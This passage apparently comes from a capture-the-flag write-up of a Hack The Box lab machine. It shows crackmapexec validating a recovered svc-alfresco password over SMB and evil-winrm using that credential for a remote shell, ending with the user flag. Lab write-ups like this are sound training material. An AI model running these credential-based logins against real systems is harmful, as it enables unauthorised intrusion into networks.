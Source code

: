 > Using this credential to enumerate smb 
> Nothing found

![](./IMG/20.png)
> Try to use crackmapexec enumerate it again, 
> I still can't find anything, but I can make sure the credential is valid

```
crackmapexec smb 10.129.95.210 -u svc-alfresco -p s3rvice
```

![](./IMG/21.png)

> Then I tried to using evil-winrm to login 
> Actually, if I scan all port, it's easy to find the winrm service is open

```
evil-winrm -i 10.129.95.210 -u svc-alfresco -p 's3rvice'
```

![](./IMG/22.png)

> Get user flag 

![](./IMG/23.png)
